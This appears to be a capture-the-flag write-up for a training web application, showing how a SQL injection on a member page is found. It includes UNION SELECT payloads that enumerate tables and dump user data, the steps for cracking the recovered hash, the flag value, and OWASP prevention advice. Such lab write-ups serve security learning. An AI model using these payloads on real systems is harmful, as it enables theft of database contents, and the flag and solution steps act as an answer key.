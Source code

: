 # SQL INJECTION MEMBERS

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
On the page http://{IP_ADDRESS}/index.php?page=member

```diff
# To get the request columns number
1 OR 1=1 UNION SELECT NULL, NULL--
> 2 columns

# To get the users columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
> user_id, first_name, last_name, town, country, planet, Commentaire, countersign

# To see all user's data
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
> user_id = 5
> FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

# Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
md5_decrypt('5ff9d0165b4f92b14994e5c685cdce28')
> FortyTwo
lower('FortyTwo')
> fortytwo
sh256('fortytwo')
> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Use
> read sensitive data from the database, \
> modify database data (Insert/Update/Delete), \
> execute administration operations on the database (such as shutdown the DBMS), \
> recover the content of a given file present on the DBMS file system \
> and in some cases issue commands to the operating system

## Prevention
> Use of Prepared Statements (with Parameterized Queries) \
> Use of Stored Procedures \
> Whitelist Input Validation \
> Escaping All User Supplied Input

## Documentation
- [owasp - SQL injection](https://www.owasp.org/index.php/SQL_Injection)
- [owasp - prevent SQL injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [md5](https://md5decrypt.net/en/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)